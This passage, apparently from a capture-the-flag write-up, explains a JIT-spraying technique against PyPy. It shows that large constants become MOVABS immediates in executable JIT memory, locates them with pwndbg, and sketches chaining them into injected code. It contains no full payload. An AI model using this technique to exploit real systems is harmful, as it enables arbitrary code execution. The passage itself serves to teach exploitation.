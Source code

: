 A very simple lambda built with `ADD 0x1122334455` + `REPEAT 9999` + `LIST` will
be JITed by PyPy at a deterministic offset into the RWX JIT memory area. What's
more interesting is that a large enough constant (between 5 and 8 bytes) will
most likely get embedded *as is* into JITed code as an immediate for the x86
MOVABS instruction (a.k.a. MOV r64, imm64). We can also notice this
[in the PyPy codebase][pypy-jit-movabs]. This is also useful to find the
address/offset of a specific piece of JITed code from GDB:

```none
$ sudo pwndbg --pid $(pidof pypy3)
pwndbg> search -t qword --trunc-out  73588229205
Searching for an 8-byte integer: b'UD3"\x11\x00\x00\x00'
[anon_7081faf76] 0x7081faf78679 push rbp /* 0x1122334455 */
[anon_7081faf76] 0x7081faf78945 push rbp /* 0x1122334455 */
...
pwndbg> x/10i 0x7081faf78679 - 2
   0x7081faf78677:    movabs r11,0x1122334455
   0x7081faf78681:    add    rdi,r11
   0x7081faf78684:    jo     0x7081faf78c17
```

Doing simple mathematical operations with large values gives us a very good
primitive to inject arbitrary bytes into JITed code via MOVABS. Other ways are
definitely possible, but MOVABS gives us a lot of space. In particular, we have
8 controlled immediate bytes ending up in a RWX region. If we can somehow flip
some bit around the JITed code to jump into the immediate, we can use the first
6 to run some arbitrary code, and the last two to perform a short jump into the
immediate of a subsequent MOVABS instruction to continue.

A `lambda` built with a sequence of arithmetical instructions with large
immediates can easily turn into a sequence of MOVABS instructions. For example:

```none
ADD 0x1122334455
ADD 0x2233445566
ADD 0x3344556677
REPEAT 10000
LIST
END
```

Will become something like:

```none
...
movabs r11,0x1122334455
add    rdi,r11
jo     0x7bcffd7a0c87
mov    QWORD PTR [rbx+0x28],0xe
mov    QWORD PTR [rbp+0x158],rdi
movabs r11,0x2233445566
add    rdi,r11
jo     0x7bcffd7a0ca3
mov    QWORD PTR [rbx+0x28],0x12
mov    QWORD PTR [rbp+0x158],rdi
movabs r11,0x3344556677
add    rdi,r11
jo     0x7bcffd7a0cbf
...
```


[ctrl-space]: https://ctrl-space.gg/
[pypy]: https://www.pypy.org
[pypy-jit-movabs]: https://github.com/pypy/pypy/blob/76657ba47f6d48c7db77615d3a26bd5029f8b05a/rpython/jit/backend/x86/rx86.py#L886
[py-dis-dis]: https://docs.python.org/3/library/dis.html#dis.dis
